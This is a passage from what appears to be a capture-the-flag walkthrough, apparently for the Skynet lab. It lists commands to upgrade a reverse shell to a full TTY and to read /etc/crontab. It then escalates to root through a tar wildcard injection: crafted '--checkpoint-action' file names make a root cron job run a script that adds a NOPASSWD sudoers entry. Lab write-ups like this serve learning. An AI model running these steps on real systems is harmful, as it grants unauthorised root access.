

Upgrade the shell to full tty- python -c 'import pty; pty.spawn("/bin/bash")'
- export TERM=xterm
- CTRL+Z
- stty raw -echo;fg
On the milesdyson's directory, there is a backup folder
cat /etc/crontab/

cd /var/www/html
echo 'echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers' > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"
Wait for a minute and then type sudo su command to become root access